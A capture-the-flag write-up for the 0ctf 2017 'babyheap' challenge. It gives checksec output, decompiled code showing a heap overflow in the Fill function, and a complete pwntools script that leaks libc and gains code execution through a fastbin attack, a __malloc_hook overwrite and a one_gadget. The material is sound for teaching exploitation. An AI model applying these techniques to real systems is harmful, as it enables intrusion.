 # 0ctf-2017 babyheap
## checksec

```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	FORTIFY	Fortified Fortifiable  FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   Yes	0		2	babyheap_69a42acd160ab67a68047ca3f9c390b9

```

## reverse

It is a standard, baby heap elf. We can malloc a content buffer and set the buffer's size through inputting 1，while we can set the size of inputs if we choose 2 to fill the buffer content. If malloc `x` and input `y,(x < y)`, the heap buffer will be overflowed.

```c
struct MemItem
{
  __int64 alloc_flag;
  __int64 size;
  unsigned __int8 *addr;
};

__int64 __fastcall Fill(MemItem *a1)
{
  __int64 result; // rax
  int index; // [rsp+18h] [rbp-8h]
  int size; // [rsp+1Ch] [rbp-4h]

  printf("Index: ");
  result = get_int();
  index = result;
  if ( (signed int)result >= 0 && (signed int)result <= 15 )
  {
    result = LODWORD(a1[(signed int)result].alloc_flag);
    if ( (_DWORD)result == 1 )
    {
      printf("Size: ");
      result = get_int();
      size = result;
      if ( (signed int)result > 0 )
      {
        printf("Content: ");
        result = read_n(a1[index].addr, size);
      }
    }
  }
  return result;
}
```

## exploit

- Leak: If there are 3 adjacent chunks, we can change the size field of 2nd chunk by overflow 1st chunk. Then we dump 2nd chunk will dump the content of 3rd chunk too.If 3rd chunk is a small bins chunk and is free, we will get a add of `main_arena+x`.
- Exploit: fasten attack+one_gadget+malloc_hook.

```python
from pwn import *

#context.log_level = 'debug'
#ubuntu_16_04_4_off = 0x3c4b20 - 0xf1147
off = 0x3a5620 - 0x41374
def alloca(size):
    r.sendlineafter("Command: ", '1')
    r.sendlineafter("Size: ", str(size))

def fill(index, content):
    r.sendlineafter("Command: ", '2')
    r.sendlineafter("Index: ", str(index))
    r.sendlineafter("Size: ", str(len(content)))
    r.sendafter("Content: ", content)

def free(index):
    r.sendlineafter("Command: ", '3')
    r.sendlineafter("Index: ", str(index))

def dump(index):
    r.sendlineafter("Command: ", '4')
    r.sendlineafter("Index: ", str(index))
    r.recvuntil("Content: \n")
    content = r.recvline()
    return content

r = remote('192.168.203.131', 2017)
#r = process('./babyheap_69a42acd160ab67a68047ca3f9c390b9',
#        env = {'LD_PRELOAD': './libc.so.6_b86ec517ee44b2d6c03096e0518c72a1'}
#)
#gdb.attach(r, '''
#continue
#''')

alloca(16) # 0
alloca(96) # 1
alloca(16) # 2
alloca(16) # 3
alloca(256) # 4
alloca(512) # 5
#pause()

fill(2, (p64(0) * 3) + p64(0x41)) # wide 3 chunk
fill(4, (p64(0) * 3) + p64(0xf1)) # fake chunk in 4
free(3)
alloca(48) # 3
fill(3, (p64(0) * 3) + p64(0x111))
free(4)

main_arena_addr = u64(dump(3)[-9:-1]) - 0x58
print "[+] main_arena = 0x%x" % main_arena_addr
one_gadget = main_arena_addr - off
print "[+] one_gadget = 0x%x" % one_gadget
malloc_hook = main_arena_addr - 0x10
print "[+] __malloc_hook = 0x%x" % malloc_hook
fill(2, (p64(0) * 3) + p64(0x21))

# fastbin attack
free(1)
fill(0, (p64(0) * 3) + p64(0x71) + p64(malloc_hook - 0x20 - 3))
alloca(96) # 1
alloca(96) # 4
fill(4, '\0' * 3 + p64(0) * 2 + p64(one_gadget))
alloca(20)

r.interactive()

```

